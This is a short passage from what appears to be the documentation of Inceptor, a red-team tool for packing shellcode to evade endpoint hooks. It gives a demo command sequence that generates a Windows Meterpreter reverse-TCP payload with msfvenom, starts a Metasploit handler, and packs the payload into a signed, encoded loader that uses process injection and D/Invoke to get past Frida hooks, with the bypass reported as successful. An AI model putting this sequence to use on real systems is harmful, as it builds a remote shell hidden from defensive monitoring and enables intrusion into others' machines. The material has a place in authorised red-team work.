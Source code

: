 ### Demo 2.2: Ok, now with manual mapping!

```sh-session
# Console 1: Start Metasploit
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=4444 -f raw -o msf.raw
handler -H eth0 -P 4444 -p windows/x64/meterpreter/reverse_tcp

# Console 2: Pack the shellcode
# --sgn: encode the shellcode
# --sign: sign the loader
# -m dinvoke: to load the D/Invoke module
# -P: uses process injection
# --delay 15: Wait for 15 seconds to allow frida to install the hooks!
python inceptor.py dotnet msf.raw -o MySisterFell.exe --sgn --sign -P -m dinvoke --delay 15

# Console 3: Start the demo!
demo.bat MySisterFell.exe
```
The result should be similar to the following, showing the Inceptor loader successfully bypassed Frida:

![We Bypassed It!](./assets/We_Bypassed_It.png)

The full video below:

<div class="embed-container">
  <iframe
      style="display: block;margin-left: auto;margin-right: auto;"
      width="800"
      height="600"
      src="https://drive.google.com/file/d/1uqxqW9ww8QtPs5Ga3WRj9lhQN68OE8Up/preview"
      frameborder="0"
      allow="autoplay"
      allowfullscreen="">
  </iframe>
</div>

## Keynotes
